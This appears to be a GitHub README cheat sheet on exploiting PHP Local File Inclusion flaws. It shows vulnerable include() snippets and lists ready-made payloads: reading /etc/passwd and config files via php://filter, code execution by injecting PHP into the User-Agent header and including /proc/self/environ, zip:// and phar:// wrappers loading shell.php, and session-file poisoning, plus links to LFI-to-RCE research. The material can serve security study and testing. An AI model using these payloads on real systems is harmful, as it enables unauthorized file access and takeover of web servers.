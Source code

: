 # Tricky ways to exploit PHP Local File Inclusion

## Introduction

Brought from [Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_File_Inclusion), Local File Inclusion (LFI) is similar to a Remote File Inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server can be included for execution.

For instance:

```php
include $_GET['file'];
```

or harder one,

```php
include $_GET['file'] . ".php";
```

## Tricks

### Direct Local File Inclusion

- Reading arbitrary files:
    * `index.php?file=/etc/passwd`
    * `index.php?file=php://filter/convert.base64-encode/resource=config.php`

- Remote code exection:
    * /proc/self/environ
        ```
        GET /index.php?file=/proc/self/environ&cmd=id HTTP/1.1
        Host: www.site.com
        User-Agent: <?php echo assert($_GET['cmd']);?>
        ```
    * Zip and Phar wrappers
        - `index.php?file=zip://image.zip#shell.php`
        - `index.php?file=phar://image.phar/shell.php`

    * Session Files
        - PHP5 stores session files in `/var/lib/php5/sess_*`
            ```
            Cookie: PHPSESSID=123php # /var/lib/php5/sess_123php
            index.php?file=/var/lib/php5/sess_123php
            ```

### Indirect Local File Inclusion

- Reading arbitrary files:
    * `index.php?file=php://filter/convert.base64-encode/resource=config # will append ".php" at the end`

- Remote code exection:
    * Zip and Phar wrappers
        - `index.php?file=zip://image.zip#shell`
        - `index.php?file=phar://image.phar/shell`
    * Session Files
        - PHP5 stores session files in `/var/lib/php5/sess_*`
            ```
            Cookie: PHPSESSID=123php # /var/lib/php5/sess_123php
            index.php?file=/var/lib/php5/sess_123
            ```
### Research
https://dustri.org/b/files/PHP_LFI_rfc1867_temporary_files.pdf - Gynvael LFI to RCE via /tmp + phpinfo
https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf - further research on Gynvael method
https://dustri.org/b/from-lfi-to-rce-in-php.html - More current method

https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfile - LFI cheat sheet
